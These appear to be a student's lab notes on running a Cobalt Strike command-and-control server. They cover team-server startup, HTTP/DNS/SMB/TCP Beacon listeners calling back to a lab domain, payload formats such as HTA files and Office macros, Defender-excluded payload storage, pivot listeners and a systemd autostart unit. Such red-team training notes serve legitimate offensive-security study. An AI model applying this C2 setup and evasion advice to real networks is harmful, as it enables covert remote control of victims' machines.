 # Command & Control

## Starting the Team Server

1. Log into Attacker Desktop
2. Right-click on Terminal icon in the taskbar
3. Select Team Server (SSH)
4. (Opt) tmux session
5. ```cd cobaltstrike```
6. ```sudo ./teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile```
7. Once SHA of teamserver appears, run Cobalt Strike client from the taskbar
8. Connect (confirm fingerprint first time)

## Listener Management

Use nickelviper.com for stager, which points to 10.10.5.50

* Egress listeners (Cobalt Strike > Listeners) - allow Beacon to communicate outside of the target network to team server
  * HTTP - allows Beacon to send and receive C2 messages over HTTP GET and/or POST requests (check with ```sudo ss -lntp```)
  * DNS - C2 messages over several lookup/response types like A, AAAA and TXT. TXT used by default (holds the most amount of data). Use pics.nickelviper.com for stager. (Check with ```dig @ns1.nickelviper.com test.pics.nickelviper.com +short```; should give 0.0.0.0.)
  * P2P - chain multiple Beacons together in parent/child relationships to reduce overall host traffic or to allow beacons on hosts unable to egress data out of network. Link child Beacon to an egress HTTP/DNS Beacon, and traffic from the child is sent to the parent, which sends to the team server.
    * SMB - starts a new named pipe server and listens for an incoming connection. This pipe is available both locally and remotely. (Use a name that will blend with existing pipes -- ```PS C:\> ls \\.\pipe\``` shows them.)
    * Raw TCP - binds and listens on the specified port number.

Create all listeners:
| name | payload | host | port | beacons | profile |
|--|--|--|--|--|--|
| dns | windows/beacon_dns/reverse_dns_txt | pics.nickelviper.com | 53 | pics.nickelviper.com | default |
| http | windows/beacon_dns/reverse_http | nickelviper.com | 80 | nickelviper.com | default |
| smb | windows/beacon_bind_pipe | | TSVCPIPE-abcd... | | |
| tcp | windows/beacon_bind_tcp | | 4444 | 0.0.0.0 | |
| tcp-loc | windows/beacon_bind_tcp | | 4444 | 127.0.0.1 | |

## Generating Payloads

Use Payloads menu to generate different kinds of payloads:
| | | |
|--|--|--|
| HTML App | .hta file delivered through browser via social engineering | x86, only for egress listeners |
| MS Office Macro | VBA that can be dropped into a macro-enabled MS Word or Excel file | x86/x64, only for egress listeners |
| Stager Payload Generator | Payload stager in C, C#, PowerShell, Python, VBA, etc.; for custom payloads/exploits | x86/x64, only for egress listeners |
| Stageless Payload Generator | Stageless payloads rather than stagers. Can specify an exit function (process/thread) | Also for P2P listeners |
| Windows Stager Payload | Pre-compiled stager as an EXE, Service EXE, or DLL. | |
| Windows Stageless Payload | Pre-compiled stageless payload as an EXE, Service EXE, DLL, shellcode, or PowerShell | P2P listeners |
| Windows Stageless Generate All Payloads | Every stageless payload variant for every listener | x86/x64 |

Save payloads to C:\Payloads (Defender has an exception for that directory).

## Interacting with Beacon

1. Launch a beacon on the Attacker Desktop
2. Change beacon's sleep cycle if desired, e.g. ```sleep 5``` (_but watch how noisy it can get -- not a prob in lab network_)
3. Confirm beacon in Wireshark; filter for http, look for GET request with 200 response (use Follow > HTTP Stream) -- how traffic appears can be customised in the Malleable C2 profile
4. Check control by using some commands, like ```pwd```, ```dir```, ```whoami```, etc.
5. DNS beacons do not automatically send metadata; use ```checkin``` command

## Pivot Listeners

A PL must be created on an existing beacon, and works in reverse. 

1. Right-click on a Beacon and select Pivoting > Listener
2. Host and port will be hard-coded into the listener -- leave as-is
3. Check with ```netstat```, should see e.g:

   ``` TCP    0.0.0.0:4444           0.0.0.0:0              LISTENING       6920```

Can generate payloads for this listener and use commands e.g. ```spawn```, ```elevate```, and ```jump```.

## Running as a Service

For autostart when machine boots, so you can run CS client right away:
* ```sudo vim /etc/systemd/system/teamserver.service```
* Paste:
  ```
  [Unit]
  Description=Cobalt Strike Team Server
  After=network.target
  StartLimitIntervalSec=0
  
  [Service]
  Type=simple
  Restart=always
  RestartSec=1
  User=root
  WorkingDirectory=/home/attacker/cobaltstrike
  ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
  
  [Install]
  WantedBy=multi-user.target
  ```
* ```sudo systemctl daemon-reload```
* ```sudo systemctl status teamserver.service``` // will be inactive (dead)
* ```sudo systemctl start teamserver.service```
* ```sudo systemctl status teamserver.service``` // will be active (running)
* ```sudo systemctl enable teamserver.service```
